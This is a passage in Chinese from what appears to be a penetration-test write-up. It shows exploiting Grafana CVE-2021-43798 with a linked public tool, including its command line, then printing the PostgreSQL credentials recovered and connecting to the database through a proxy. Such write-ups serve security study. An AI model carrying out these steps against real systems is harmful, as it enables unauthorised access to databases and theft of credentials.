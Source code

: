 ### 漏洞利用

搜索相关漏洞发现`CVE-2021-43798`，使用工具直接提取敏感信息，工具链接[https://github.com/A-D-Team/grafanaExp](https://github.com/A-D-Team/grafanaExp)

```bash
./grafanaExp_linux_amd64 exp -u "xxx"
```

需要注意的是我这里是用域用户二执行的命令，用本机然后通过代理执行经常卡住。

[![](assets/1706771111-5260a93f51b966f379c4ce88e2646ac3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129174107-8708a622-be8a-1.png)

获取到 PostgreSQL 账密

```bash
postgres:Postgres@123
```

通过 Proxifier 全局代理，使用`Navicat`进行连接

### 数据库连接
